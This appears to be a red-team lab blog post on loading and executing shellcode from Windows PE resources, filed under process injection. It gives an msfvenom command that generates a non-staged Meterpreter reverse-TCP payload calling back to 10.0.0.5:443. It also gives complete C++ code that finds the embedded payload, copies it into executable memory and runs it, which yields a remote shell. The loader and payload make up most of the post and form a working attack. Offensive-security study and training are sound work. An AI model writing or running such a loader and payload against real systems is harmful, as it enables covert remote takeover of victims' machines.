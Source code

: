 ```yaml
---
layout: post
title: "loading and executing shellcode from portable executable resouces"
date: 2024-06-18
categories: t1055-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1055-process-injection/
---
```


# Loading and Executing Shellcode From PE Resources

## Context

This lab shows one of the techniques how one could load and execute a non-staged shellcode from within a C program using PE resources using Visual Studio.

If you've ever tried executing an unstaged shellcode from a C/C++ program, you know that you will be having a hard time doing it if you are defining a huge char array which looks like this \(just a snippet\):

![](../../.gitbook/assets/screenshot-from-2019-04-21-12-33-31%20%281%29.png)

Below is a quick walkthrough that was inspired by [@\_RastaMouse](https://twitter.com/_RastaMouse) tweet:

![](../../.gitbook/assets/screenshot-from-2019-04-21-13-13-14.png)

## Embedding The Shellcode as a Resource

Let's generate a non-staged meterpreter payload in binary format first. This will be our resource that we want to embed into our C++ program:

```csharp
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=443 > meterpreter.bin
```

Right click on the `Resource Files` in Solution Explorer and select `Add > Resource`

![](../../.gitbook/assets/screenshot-from-2019-04-21-12-37-31.png)

Click `Import` and select the resource you want to include. In my case - it's the `meterpreter.bin`:

![](../../.gitbook/assets/screenshot-from-2019-04-21-11-42-31.png)

Give resource a resource type name - anything works, but you need to remember it when calling `FindResource` API call \(shown later in the code\):

![](../../.gitbook/assets/screenshot-from-2019-04-21-11-43-59.png)

At this point, you can see in your resource browser that the `meterpreter.bin` is now included in your program's resources:

![](../../.gitbook/assets/screenshot-from-2019-04-21-11-45-49.png)

![](../../.gitbook/assets/screenshot-from-2019-04-21-12-07-17.png)

If you compile your program now and inspect it with resource hacker, you can now see the resource you've  just embedded:

![](../../.gitbook/assets/screenshot-from-2019-04-22-17-35-35.png)

## Code

We can then leverage a small set of self-explanatory Windows APIs to find the embedded resource, load it into memory and execute it like so:

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include "resource.h"

int main()
{
	// IDR_METERPRETER_BIN1 - is the resource ID - which contains ths shellcode
	// METERPRETER_BIN is the resource type name we chose earlier when embedding the meterpreter.bin
	HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_METERPRETER_BIN1), L"METERPRETER_BIN");
	DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
	HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);
	
	void *exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcodeResouceData, shellcodeSize);
	((void(*)())exec)();

	return  0;
}
```

Compile and run the binary and enjoy the shell:

![](../../.gitbook/assets/peek-2019-04-21-12-30.gif)

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/menurc/finding-and-loading-resources" %}
@spotheplanet
